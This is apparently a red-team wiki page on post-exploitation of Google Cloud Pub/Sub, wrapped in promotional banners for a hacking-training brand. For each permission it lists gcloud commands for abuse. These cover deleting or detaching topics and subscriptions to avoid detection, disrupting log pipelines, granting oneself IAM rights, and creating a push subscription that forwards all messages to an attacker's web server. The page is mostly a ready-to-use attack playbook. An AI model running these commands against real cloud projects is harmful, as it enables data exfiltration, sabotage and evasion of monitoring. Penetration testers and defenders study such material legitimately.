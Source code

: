 # GCP - Pub/Sub Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Pub/Sub

For more information about Pub/Sub check the following page:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publish a message in a topic, useful to **send unexpected data** and trigger unexpected functionalities or exploit vulnerabilities:

```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```

### `pubsub.topics.detachSubscription`

Useful to prevent a subscription from receiving messages, maybe to avoid detection.

```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```

### `pubsub.topics.delete`

Useful to prevent a subscription from receiving messages, maybe to avoid detection.\
It's possible to delete a topic even with subscriptions attached to it.

```bash
gcloud pubsub topics delete <TOPIC NAME>
```

### `pubsub.topics.update`

Use this permission to update some setting of the topic to disrupt it, like `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Give yourself permission to perform any of the previous attacks.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Get all the messages in a web server:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Create a subscription and use it to **pull messages**:

```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```

### `pubsub.subscriptions.delete`

**Delete a subscription** could be useful to disrupt a log processing system or something similar:

```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```

### &#x20;`pubsub.subscriptions.update`

Use this permission to update some setting so messages are stored in a place you can access (URL, Big Query table, Bucket) or just to disrupt it.

### `pubsub.subscriptions.setIamPolicy`

Give yourself the permissions needed to perform any of the previously commented attacks.

### `pubsub.schemas.delete`

Delete a schema to be able to send messages that doesn't fulfil with the schema:

```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attack a schema to a topic so the messages doesn't fulfil it and therefore the topic is disrupted.\
If there aren't any schemas you might need to create one.

{% code title="schema.json" %}
```json
{
    "namespace": "com.example",
    "type": "record",
    "name": "Person",
    "fields": [
        {
            "name": "name",
            "type": "string"
        },
        {
            "name": "age",
            "type": "int"
        }
    ]
}
```
{% endcode %}

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
    --schema=projects/<project-name>/schemas/<topic-id> \
    --message-encoding=json
```

### `pubsub.schemas.setIamPolicy`

Give yourself the permissions needed to perform any of the previously commented attacks.

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

This is will create a snapshot of all the unACKed messages and put them back to the subscription. Not very useful for an attacker but here it's:

```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
    --subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
    --snapshot=YOUR_SNAPSHOT_NAME
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
